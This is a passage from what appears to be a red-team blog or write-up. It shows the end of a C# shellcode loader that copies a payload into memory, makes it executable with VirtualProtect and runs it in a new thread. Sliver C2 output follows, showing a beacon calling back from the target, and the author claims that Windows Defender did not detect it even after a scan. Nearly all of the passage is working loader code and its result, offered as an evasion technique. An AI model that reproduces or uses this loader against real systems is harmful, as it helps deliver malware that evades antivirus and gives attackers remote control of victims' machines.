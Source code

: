 ```csharp
            // Copy shellcode into allocated space
            Marshal.Copy(buf, 0, lpStartAddress, buf.Length);

            // Make shellcode in memory executable
            UInt32 lpflOldProtect;
            VirtualProtect(lpStartAddress, (UInt32)buf.Length, 0x20, out lpflOldProtect);

            // Execute the shellcode in a new thread
            UInt32 lpThreadId = 0;
            IntPtr hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0, ref lpThreadId);

            // Wait until the shellcode is done executing
            WaitForSingleObject(hThread, 0xffffffff);
        }
    }
}
```

let’s compile and run the executable from a terminal from the target... and IMMEDIATELY we get a shell !!!

```bash
[*] Beacon f436035a FRENCH_PHRASE - 172.22.64.1:56068  - windows/amd64 - Fri, 26 Sep 2025 10:00:59 

[server] sliver >
[server] sliver > beacons

 ID         Name            Tasks   Transport   Remote Address      Hostname       Username    Operating System   Locale   Last Check-In                               Next Check-In
========== =============== ======= =========== =================== ============== =========== ================== ======== =========================================== ===========================================
 f436035a   FRENCH_PHRASE   0/0     http(s)     172.22.64.1:56068     <SNIP>           <SNIP>   windows/amd64     <SNIP>   Fri Sep 26 10:03:52  2025 (6s ago)         Fri Sep 26 10:05:14  2025 (in 1m16s)
```

And defender did not go off at all, not even after a scan
